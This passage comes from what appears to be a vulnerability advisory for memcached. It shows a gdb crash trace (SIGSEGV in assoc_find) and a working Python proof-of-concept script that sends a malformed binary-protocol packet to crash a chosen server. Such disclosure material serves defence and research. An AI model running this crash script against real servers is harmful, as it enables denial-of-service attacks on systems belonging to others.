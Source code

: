    0x80011b03 <assoc_find+115>:   mov    DWORD PTR [esp+0x8],ebp
[------------------------------------stack-------------------------------------]
0000| 0xb6d3d060 --> 0x0
0004| 0xb6d3d064 --> 0x0
0008| 0xb6d3d068 --> 0x0
0012| 0xb6d3d06c --> 0x0
0016| 0xb6d3d070 --> 0x0
0020| 0xb6d3d074 --> 0x0
0024| 0xb6d3d078 --> 0x80011a99 (<assoc_find+9>:       add    ebx,0xb367)
0028| 0xb6d3d07c --> 0x8001ce00 --> 0x1ccf8
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x80011af7 in assoc_find ()
gdb-peda$
</code>
</pre>
<h3 id="exploit-proof-of-concept-optional" nodeIndex="77">Exploit Proof-of-Concept (optional)</h3>
<pre nodeIndex="78">
<code nodeIndex="148">import struct
import socket
import sys

MEMCACHED_REQUEST_MAGIC = "\x80"
OPCODE_PREPEND_Q = "\x1a"
key_len = struct.pack("!H",0xfa)
extra_len = "\x00"
data_type = "\x00"
vbucket = "\x00\x00"
body_len = struct.pack("!I",0)
opaque = struct.pack("!I",0)
CAS = struct.pack("!Q",0)
body = "A"*1024

if len(sys.argv) != 3:
        print "./poc_crash.py <server> <port>"

packet = MEMCACHED_REQUEST_MAGIC + OPCODE_PREPEND_Q + key_len + extra_len
packet += data_type + vbucket + body_len + opaque + CAS
packet += body

set_packet = "set testkey 0 60 4\r\ntest\r\n"
get_packet = "get testkey\r\n"

s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s1.connect((sys.argv[1],int(sys.argv[2])))
s1.sendall(set_packet)
print s1.recv(1024)
s1.close()


s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s2.connect((sys.argv[1],int(sys.argv[2])))
s2.sendall(packet)
print s2.recv(1024)
s2.close()
